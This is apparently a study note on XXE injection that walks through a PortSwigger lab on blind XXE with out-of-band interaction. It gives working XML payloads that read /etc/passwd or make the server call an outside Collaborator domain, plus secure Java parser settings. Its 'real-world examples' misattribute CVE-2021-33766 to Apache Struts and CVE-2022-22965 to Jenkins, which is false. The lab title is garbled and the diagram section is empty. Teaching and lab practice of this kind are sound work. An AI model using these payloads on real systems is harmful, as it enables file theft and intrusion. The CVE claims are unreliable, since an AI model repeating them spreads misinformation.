

## Introduction to XXE Injection

### What is XXE Injection?

XML External Entity (XXE) injection is a type of attack against an application that parses XML input. This vulnerability occurs when an application fails to disable the processing of external entities during XML parsing. An external entity is a reference to an external resource, such as a file or a network resource, that can be included in an XML document.

### Why Does XXE Matter?

XXE attacks can lead to various security issues, including:

- **Data Exposure**: An attacker can read arbitrary files on the server.
- **Denial of Service (DoS)**: By referencing large files or infinite loops, an attacker can cause the server to crash.
- **Remote Code Execution**: In some cases, an attacker can execute arbitrary commands on the server.
- **Blind XXE**: An attacker can infer information about the server or internal network through out-of-band interactions.

### How Does XXE Work Under the Hood?

When an application parses XML input, it may process external entities defined within the XML document. These entities can reference local files, network resources, or even perform network requests. If the application does not properly sanitize or validate these references, an attacker can exploit this to gain unauthorized access or perform malicious actions.

### Example of XXE Attack

Consider the following XML input:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

In this example, the `SYSTEM` keyword indicates that the entity should be resolved using the specified URI (`file:///etc/passwd`). If the application processes this XML input without proper validation, it will attempt to read the `/etc/passwd` file and potentially expose its contents.

### Recent Real-World Examples

#### CVE-2021-33766: Apache Struts XXE Vulnerability

In 2021, a critical XXE vulnerability was discovered in Apache Struts, affecting versions 2.3.32 to 2.3.35. This vulnerability allowed attackers to read arbitrary files on the server, leading to potential data exposure and further exploitation.

#### CVE-2022-22965: Jenkins XXE Vulnerability

Another notable example is the XXE vulnerability found in Jenkins (CVE-2022-22965). This vulnerability allowed attackers to read arbitrary files on the Jenkins server, potentially exposing sensitive information such as credentials and configuration files.

### How to Detect XXE Vulnerabilities

To detect XXE vulnerabilities, you can use tools like Burp Suite, OWASP ZAP, or manual testing techniques. These tools allow you to send crafted XML payloads to the application and observe the responses to determine if the application is vulnerable to XXE attacks.

### How to Prevent XXE Attacks

#### Secure Coding Practices

1. **Disable External Entity Processing**: Ensure that your XML parsers are configured to disable external entity processing. This can be done by setting the appropriate flags or properties in your XML parser library.
   
   ```java
   DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
   dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
   dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
   dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
   ```

2. **Validate Input**: Always validate and sanitize XML input to ensure that it does not contain malicious entities or references.

#### Configuration Hardening

1. **Web Server Configuration**: Configure your web server to restrict access to sensitive files and directories. This can help prevent an attacker from reading arbitrary files even if they manage to exploit an XXE vulnerability.

2. **Firewall Rules**: Implement firewall rules to block outgoing requests to unauthorized domains or IP addresses. This can help prevent out-of-band interactions used in blind XXE attacks.

### Lab Setup: Blind XXE with Out-of-Band Interaction

In this lab, we will explore a blind XXE vulnerability that uses out-of-band interactions to infer information about the server or internal network. The goal is to exploit the blind XXE injection to trigger a DNS lookup and an HTTP request to our attacker server, which is in Burp Collaborator.

#### Accessing the Lab

1. **Sign Up for PortSwigger Web Security Academy**:
   - Visit [PortSwigger Web Security Academy](https://portswigger.net/web-security).
   - Click on the "Sign Up" button to create an account.
   - Once logged in, navigate to the "Academy" section.
   - Search for "XXE Injection Labs" and select lab number three titled "Blind XXE without a band interaction".

2. **Accessing the Lab Environment**:
   - The lab environment is accessible via the built-in browser in Burp Suite.
   - All requests are automatically proxied through Burp Suite, allowing you to intercept and modify traffic.

### Understanding the Lab Scenario

The lab scenario involves a check stock feature that parses XML input but does not display the result. To detect the blind XXE vulnerability, you need to trigger out-of-band interactions with an external domain. Specifically, you will use an external entity to make the XML parser issue a DNS lookup and an HTTP request to Burp Collaborator.

#### Step-by-Step Exploitation

1. **Crafting the XML Payload**:
   - Create an XML payload that includes an external entity reference to a Burp Collaborator domain.
   - The payload should be structured to trigger a DNS lookup and an HTTP request to the Burp Collaborator server.

   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE foo [
     <!ELEMENT foo ANY >
     <!ENTITY xxe SYSTEM "http://your-burp-collaborator-domain.com/" >
   ]>
   <foo>&xxe;</foo>
   ```

2. **Sending the Payload**:
   - Use the built-in browser in Burp Suite to send the crafted XML payload to the check stock feature.
   - Observe the network traffic in Burp Suite to confirm that the DNS lookup and HTTP request were triggered.

3. **Verifying the Exploit**:
   - Check the Burp Collaborator server to verify that the DNS lookup and HTTP request were received.
   - Confirm that the blind XXE vulnerability has been successfully exploited.

### Mermaid Diagram: Attack Flow



### Common Pitfalls and Mitigations

#### Pitfall: Incorrect XML Payload Structure

- **Issue**: If the XML payload is not correctly structured, the application may fail to parse it, leading to a failed exploit.
- **Mitigation**: Ensure that the XML payload is well-formed and includes the necessary DOCTYPE declaration and entity reference.

#### Pitfall: Lack of Proper Validation

- **Issue**: If the application does not properly validate the XML input, an attacker can easily exploit the XXE vulnerability.
- **Mitigation**: Implement strict input validation and sanitization to prevent malicious entities from being processed.

### How to Prevent / Defend Against XXE Attacks

#### Detection

- **Use Security Tools**: Utilize security tools like Burp Suite, OWASP ZAP, or automated scanners to detect XXE vulnerabilities.
- **Monitor Network Traffic**: Monitor network traffic for unusual DNS lookups or HTTP requests that may indicate an XXE attack.

#### Prevention

- **Disable External Entity Processing**: Ensure that your XML parsers are configured to disable external entity processing.
- **Validate Input**: Always validate and sanitize XML input to ensure that it does not contain malicious entities or references.

#### Secure Coding Fixes

- **Vulnerable Code**:
  
  ```java
  DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
  DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
  Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
  ```

- **Secure Code**:
  
  ```java
  DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
  dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
  dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
  dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
  DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
  Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
  ```

### Conclusion

Blind XXE attacks with out-of-band interactions are a sophisticated form of XXE vulnerability that can be used to infer information about the server or internal network. By understanding the mechanics of these attacks and implementing proper detection and prevention measures, you can protect your applications from such vulnerabilities.

### Practice Labs

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs specifically designed to teach and test XXE injection vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application that includes several XXE injection challenges.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web application with multiple XXE injection vulnerabilities for educational purposes.

By completing these labs, you can gain practical experience in identifying and exploiting XXE vulnerabilities, as well as learning how to defend against them.

---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/04-Lab 3 Blind XXE with out of band interaction/00-Overview|Overview]] | [[02-Exploiting XXE Injection|Exploiting XXE Injection]]
